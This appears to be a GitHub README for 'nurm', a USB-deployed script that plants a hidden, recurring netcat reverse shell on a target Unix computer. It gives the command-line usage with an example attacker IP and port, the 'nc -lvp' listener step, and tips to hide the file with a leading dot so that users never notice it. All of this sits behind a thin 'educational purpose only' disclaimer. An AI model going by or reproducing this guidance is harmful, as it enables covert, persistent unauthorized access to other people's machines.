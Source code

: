 **This project is for educational purpose only**

## What is nurm?
"Now You Are Mine"(nurm) is an automatic reverse shell script that is designed to be placed and run on the target unix computer via the portable usb drive.

## What does it do?
Once run from the usb, nurm will send the reverse shell to any ip address and port that the user specified every five minutes, allowing the following device with the given ip address to access an interactive shell of the target given that the device is listening to the port specified.

## Usage
1) Download the script to your favorite usb stick
2) Run the script on the target machine once.  
   **Usage(v 1.3)**: `./nurm [-a ipaddress] [-p port] [-f full-path-filename] [-c]`  
   [-a ip address] - the ip address that the reverse shell will be sent through.  
   [-p port] - the port that is used for the udp connection  
   [-f full-path-filename] - the file with its full path that the reverse shell script will be stored  
3) Use nc -lvp [port] on the ip address  
4) The interactive shell will be sent every 5 minutes

## Examples
`./nurm -a 127.168.123.98 -p 8987 -f /home/user1/.test` will create a script that will send the reverse shell to the address 127.168.123.98 at port 8987 and store the script to /home/user1/.test  
`./nurm` will create a script according to the configuration in nurm.conf

## Precautions/ Tips
1) Always hide the file with ".". For example, *.test*. This way, many unexperienced users will never be aware of the script.
2) The listening device should either be a server or a computer with static ip address with properly port-forwarded configuration. Otherwise, the connection will be temporary.
3) Use the nurm.conf to keep track of your server port and to save your time.
4) For optimization reason, **the variable order of nurm.conf is designed to be unchanged. Changing the order of dport variable will break the config file.**
4) **This script is for educational purpose only. Don't use it to do illegal activities. You are solely responsible for your actions!**

## Status
Currently only supports netcat reverse shell.
Now supports config file to save your time.
Supports partial override 

## Upcoming features
- most reverse-shell support for common languages
